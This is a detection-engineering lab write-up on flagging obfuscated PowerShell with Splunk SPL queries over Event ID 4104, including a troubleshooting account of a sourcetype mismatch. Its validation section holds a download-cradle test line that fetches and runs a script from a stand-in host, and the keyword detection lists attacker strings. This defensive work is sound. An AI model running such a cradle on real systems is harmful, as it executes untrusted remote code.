









# Incident Report: Detecting Obfuscated PowerShell Execution via Script Block Logging

**Author:** Brandon White
**Lab environment:** Windows 11 (victim-win11) -> Splunk Universal Forwarder -> Splunk Indexer (splunk-siem)
**Date:** July 2026
**Related project:** [splunk-siem-lab](https://github.com/BWhite-Sec/splunk-siem-lab)

---

## 1. Summary

This lab extends the existing Splunk SIEM home lab with a second detection use case: identifying suspicious and obfuscated PowerShell execution using **Windows Event ID 4104 (PowerShell Script Block Logging)**. Two complementary SPL detections were built - a keyword-based detection for known attacker patterns, and a heuristic scoring detection for structurally obfuscated script blocks that evade keyword matching. Both were validated against benign administrative PowerShell activity to confirm low false-positive behavior.

A significant portion of this lab involved diagnosing a real data-ingestion issue: PowerShell Script Block Logging events were confirmed present on the endpoint and successfully forwarded by the Universal Forwarder, but were not appearing in search results due to a **sourcetype normalization mismatch** between inputs.conf and Splunk's indexed field values. That troubleshooting process is documented in Section 4.

---

## 2. MITRE ATT&CK Mapping

| Technique | ID | Notes |
|---|---|---|
| Command and Scripting Interpreter: PowerShell | **T1059.001** | Primary technique - detection targets PowerShell execution patterns generally associated with malicious use |
| Ingress Tool Transfer | **T1105** | Applies specifically to the IEX (New-Object Net.WebClient).DownloadString(...) download-cradle pattern |

---

## 3. Environment Configuration

### 3.1 Enabling Script Block Logging

PowerShell Script Block Logging was enabled via registry, since the lab's Windows 11 Home edition does not include gpedit.msc (Local Group Policy Editor is unavailable on Home SKUs):

```powershell
$path = "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging"
New-Item -Path $path -Force | Out-Null
Set-ItemProperty -Path $path -Name "EnableScriptBlockLogging" -Value 1 -Type DWord
```

This registry key is functionally identical to the GPO setting **"Turn on PowerShell Script Block Logging"** - the GPO writes to this same key under the hood.

**Verification:**



`gpupdate /force` was also run to confirm no conflicting policy state existed.

### 3.2 Universal Forwarder input configuration

The following stanza was added to inputs.conf to forward the PowerShell Operational log channel to the indexer:

```ini
[WinEventLog://Microsoft-Windows-PowerShell/Operational]
disabled = false
index = main
sourcetype = WinEventLog:Microsoft-Windows-PowerShell/Operational
```



### 3.3 Confirming raw event generation



Key fields confirmed:
- **Event ID:** 4104
- - **Task Category:** Execute a Remote Command
  - - **Log Name:** Microsoft-Windows-PowerShell/Operational
    - - **ScriptBlockText:** contains the full, human-readable command text
     
      - ---

      ## 4. Troubleshooting: Diagnosing a Silent Ingestion Failure

      ### 4.1 Ruling out the obvious causes

      | Hypothesis | Check | Result |
      |---|---|---|
      | UF service not running | Get-Service SplunkForwarder | Running |
      | UF not connected to indexer | .\splunk.exe list forward-server | Active forward to 192.168.56.106:9997 confirmed |
      | Config not loading / conflicting stanza | .\splunk.exe btool inputs list --debug | Stanza loading cleanly, no conflicts |
      | Service account lacks group permission | net localgroup "Event Log Readers" | Account already a member |
      | Channel-level ACL blocking read access | wevtutil gl Microsoft-Windows-PowerShell/Operational | Event Log Readers SID present with read access |
      | Windows-side channel has no data | wevtutil qe ... /rd:true | Confirmed 4104 events present and readable directly from Windows |

      ### 4.2 Confirming the pipeline was actually working

      ```spl
      index=_internal source=*metrics.log* group=per_source_thruput series="*PowerShell*"
      ```

      This returned ev=456 - 456 events already successfully forwarded and received. This proved the ingestion pipeline was healthy end-to-end.

      

      ### 4.3 Root cause: sourcetype normalization mismatch

      ```spl
      host=victim-win11 source="WinEventLog:Microsoft-Windows-PowerShell/Operational"
      ```

      **Root cause:** inputs.conf specified a custom sourcetype, but Splunk's built-in WinEventLog normalization indexed the events under the generic sourcetype=WinEventLog instead. Every search filtering on the custom sourcetype was therefore silently excluding all matching events.

      **Takeaway:** source and sourcetype are distinct fields, and Splunk's default WinEventLog handling can override a custom sourcetype without any error or warning.

      

      ---

      ## 5. Detection 1: Keyword-Based Detection

      ### 5.2 SPL Query

      ```spl
      index=main sourcetype="WinEventLog" source="WinEventLog:Microsoft-Windows-PowerShell/Operational" EventCode=4104
      | rex field=_raw "Message=Creating Scriptblock text \(\d+ of \d+\):\s*\n(?<ScriptBlockText>[\s\S]*?)\nScriptBlock ID"
      | search ScriptBlockText="*-enc*" OR ScriptBlockText="*EncodedCommand*" OR ScriptBlockText="*FromBase64String*" OR ScriptBlockText="*IEX*" OR ScriptBlockText="*Invoke-Expression*" OR ScriptBlockText="*DownloadString*" OR ScriptBlockText="*-WindowStyle Hidden*" OR ScriptBlockText="*-NoProfile*"
      | table _time, host, user, ScriptBlockText
      | sort -_time
      ```

      ### 5.4 Validation - true positive

      Test payload: IEX (New-Object Net.WebClient).DownloadString("http://example.com/lab-test.ps1")

      

      ### 5.5 Validation - true negative behavior

      PowerShell's Script Block Logging decodes base64-encoded commands before logging them, meaning attackers cannot evade this detection simply by base64-encoding their payload. Benign administrative commands were confirmed not to trigger this detection.

      ---

      ## 6. Detection 2: Heuristic Obfuscation Scoring

      ### 6.2 SPL Query

      ```spl
      index=main sourcetype="WinEventLog" source="WinEventLog:Microsoft-Windows-PowerShell/Operational" EventCode=4104
      | rex field=_raw "Message=Creating Scriptblock text \(\d+ of \d+\):\s*\n(?<ScriptBlockText>[\s\S]*?)\nScriptBlock ID"
      | eval sb_length=len(ScriptBlockText)
      | eval space_count=mvcount(split(ScriptBlockText," "))-1
      | eval whitespace_ratio=round(space_count/sb_length,3)
      | rex field=ScriptBlockText max_match=0 "(?<b64_chunks>[A-Za-z0-9+/=]{40,})"
      | eval longest_b64_run=if(isnotnull(b64_chunks), max(mvmap(b64_chunks, len(b64_chunks))), 0)
      | where sb_length > 0
      | eval obfuscation_score=round((if(sb_length>300,1,0) + if(whitespace_ratio<0.08,1,0) + if(longest_b64_run>=40,1,0)),0)
      | where obfuscation_score >= 2
      | table _time, host, user, sb_length, whitespace_ratio, longest_b64_run, obfuscation_score, ScriptBlockText
      | sort -obfuscation_score -_time
      ```

      ### 6.3 Scoring logic

      | Signal | Threshold | Rationale |
      |---|---|---|
      | Length | sb_length > 300 | Obfuscated payloads tend to be unusually long single-line blocks |
      | Whitespace density | whitespace_ratio < 0.08 | Legitimate PowerShell has natural spacing |
      | Base64-like run | longest_b64_run >= 40 | A long unbroken base64-charset run is a strong obfuscation fingerprint |

      An alert threshold of score >= 2 requires at least two independent signals, reducing false positives.

      ### 6.4 Validation - true positive

      Result: sb_length=389, whitespace_ratio=0.005, longest_b64_run=240, obfuscation_score=3 (maximum)

      

      ### 6.5 Validation - true negative behavior

      Benign test commands did not approach the scoring threshold, confirming the heuristic does not over-fire on normal administrative PowerShell usage.

      ---

      ## 7. Signal-to-Noise Analysis

      ```spl
      index=main sourcetype="WinEventLog" source="WinEventLog:Microsoft-Windows-PowerShell/Operational"
      | stats count by EventCode
      | sort -count
      ```

      | EventCode | Count | Description |
      |---|---|---|
      | 4104 | 17 | Script block creation (actual command content) |
      | 40961 | 4 | PowerShell engine startup |
      | 40962 | 4 | PowerShell engine state change |
      | 53504 | 4 | Provider/module lifecycle |

      

      Of the 17 total 4104 events, only 2 were flagged by the combined detections. A large share of 4104 volume consists of PowerShell's own internal error-handling script blocks, which fire automatically whenever an exception occurs.

      

      This confirms the practical necessity of both detections: a naive "alert on every 4104" rule would generate roughly 8x more noise than actionable signal in this sample.

      ---

      ## 8. Recommended Response Actions

      1. **Isolate the host** from the network pending investigation.
      2. 2. **Identify the parent process** via Sysmon Event ID 1 to determine whether PowerShell was launched by a user, a scheduled task, a macro-enabled document, or another suspicious parent process.
         3. 3. **Check for persistence mechanisms** - scheduled tasks, registry Run keys, WMI event subscriptions.
            4. 4. **Review network connections** via Sysmon Event ID 3 if the flagged content includes download-cradle patterns.
               5. 5. **Correlate against authentication logs** for the affected host/user (e.g., alongside the SSH brute-force detection from the companion lab).
                 
                  6. ---
                 
                  7. ## 9. Lessons Learned / Roadmap Notes
                 
                  8. - Silent ingestion failures are a real operational risk - data can be fully present and fully forwarded yet remain invisible to search due to a field-normalization mismatch that produces no error anywhere in the pipeline.
                     - - Keyword-only detections are insufficient against any adversary willing to avoid known literal strings - pairing signature-based and heuristic detection logic closes that gap.
                       - - Script Block Logging defeats basic base64 obfuscation by design, a meaningful control to cite when justifying its deployment value.
                        
                         - **Next steps on the broader lab roadmap:** LSASS access detection via Sysmon Event ID 10, to detect credential-dumping attempts as the next home lab detection engineering exercise.
                         - 
